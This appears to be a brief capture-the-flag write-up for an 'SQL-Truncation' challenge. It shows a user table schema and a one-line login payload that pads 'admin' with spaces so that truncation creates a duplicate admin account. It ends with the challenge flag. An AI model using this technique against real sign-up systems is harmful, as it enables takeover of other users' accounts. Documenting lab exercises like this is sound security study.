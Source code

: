 ```yaml
---
layout: default
title: SQL-Truncation
---
```


Here the challenge is very similar to https://avishaigonen123.github.io/CTF_writeups/overthewire/natas/natas27.html.

This is the schema we get.
```sql
CREATE TABLE IF NOT EXISTS user(   
	id INT NOT NULL AUTO_INCREMENT,
    login VARCHAR(12),
    password CHAR(32),
    PRIMARY KEY (id));
```

If we'll create user like: `admin [spaces] a`, when the `a` is the 13th char, then it'll get truncate and when validate, the system will create duplicate to the real `admin`.

So, we give this:
```
login=admin       bla&password=11111111
```

And then can basically login with `11111111`

![FINAL](./images/SQL-Truncation_FINAL.png)

**Flag:** **_`J41m3Qu4nD54Tr0nc`_**